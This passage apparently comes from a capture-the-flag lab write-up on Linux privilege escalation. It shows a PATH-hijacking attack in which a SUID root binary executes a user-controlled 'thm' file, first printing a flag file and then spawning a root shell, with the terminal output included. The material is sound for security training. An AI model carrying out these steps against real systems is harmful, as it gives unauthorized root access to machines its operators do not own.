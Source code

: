 The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.

  

![](https://i.imgur.com/u1PM8ZD.png)  

  

At this point the path script will also look under the /tmp folder for an executable named “thm”.

Creating this command is fairly easy by copying /bin/bash as “thm” under the /tmp folder.

  

![](https://i.imgur.com/7UdrEnd.png)  

  

We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. 

What makes a privilege escalation possible within this context is that the path script runs with root privileges.


Now, we simply run the “test” file and it will execute our “cat” command and output the contents of the “flag6.txt” file.

>karen@ip-10-10-151-80:/home/murdoch$ touch thm
karen@ip-10-10-151-80:/home/murdoch$ echo "cat /home/matt/flag6.txt"
cat /home/matt/flag6.txt
karen@ip-10-10-151-80:/home/murdoch$ echo "cat /home/matt/flag6.txt" > thm
karen@ip-10-10-151-80:/home/murdoch$ cat thm
cat /home/matt/flag6.txt
karen@ip-10-10-151-80:/home/murdoch$ chmod 777 thm
karen@ip-10-10-151-80:/home/murdoch$ ls -al
total 36
drwxrwxrwx 2 root  root   4096 Sep 25 16:04 .
drwxr-xr-x 5 root  root   4096 Jun 20  2021 ..
-rwsr-xr-x 1 root  root  16712 Jun 20  2021 test
-rwxrwxrwx 1 karen karen    25 Sep 25 16:05 thm
-rw-rw-r-- 1 root  root     86 Jun 20  2021 thm.py
karen@ip-10-10-151-80:/home/murdoch$ nano test
Unable to create directory /home/karen/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

>karen@ip-10-10-151-80:/home/murdoch$ test
karen@ip-10-10-151-80:/home/murdoch$ ./test
THM-736628929
karen@ip-10-10-151-80:/home/murdoch$ 

If i wanted root access

>karen@ip-10-10-151-80:/home/murdoch$ echo "/bin/bash" > thm
karen@ip-10-10-151-80:/home/murdoch$ ./test
root@ip-10-10-151-80:/home/murdoch# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-151-80:/home/murdoch# 

